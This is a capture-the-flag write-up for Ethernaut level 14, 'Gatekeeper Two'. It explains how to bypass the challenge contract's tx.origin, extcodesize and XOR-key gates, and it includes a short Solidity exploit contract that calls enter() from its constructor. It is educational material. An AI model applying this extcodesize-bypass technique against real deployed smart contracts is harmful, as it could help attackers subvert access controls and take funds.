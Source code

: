 ```yaml
---
description: type conversion, extcodesize, and ^(xor)
---
```


# 14 - Gatekeeper Two

Ethernaut Level14: Gatekeeper Two

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

### Goal of this level

* successfully calling enter function without revert

### What you should know before

* `^`(xor) operation
* type conversion\
  \-> see the explanation in [14 - Gatekeeper Two](https://frenchkebab.gitbook.io/ctf-solutions/ethernaut/14-gatekeeper-two)

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

* code size is 0 when a contract is being deployed

<!---->

* An inverse operation of `^`(xor) is `^`(xor)!

</details>

#### gateTwo

```solidity
modifier gateTwo() {
  uint x;
  assembly { x := extcodesize(caller()) }
  require(x == 0);
  _;
}
```

\-> `excodesize(caller())` returns size of the code of `msg.sender`

This will revert if the code size is not zero, but  `gateOne` requires `msg.sender` to be a contract.

We can pass this by calling enter from the constructor of our exploit contract.

While constructor is running, code size of its contract is `0`.\
(because the contract **hasn't been deployed** yet)

#### gateThree

```solidity
modifier gateThree(bytes8 _gateKey) {
  require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
  _;
}
```

`type(uint64).max` is `0xffffffffffffffff`.

Note that the inverse operation is xor, which means that when `a ^ b = c`, \
then `a = c ^ b`, `b = a ^ c` satisfies.

<pre class="language-solidity"><code class="lang-solidity"><strong>uint64(_gateKey) == uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ type(uint64).max
</strong></code></pre>

So this condition is equivalent to the original condition.

`msg.sender` here will be the address of our exploit contract.

So we just can replace `msg.sender` to `address(this)` to calculate `_gateKey`.&#x20;



```solidity
contract AttackGatekeeperTwo {
    constructor(GatekeeperTwo _instanceAddr) {
        uint64 _gateKey = uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max;
        _instanceAddr.enter(bytes8(_gateKey));
    }
}
```

Done! 😎

## Key Takeaway

* Inverse operation of `^`(xor) is `^`(xor)
* code size of the contract is `0` when `constructor` is running
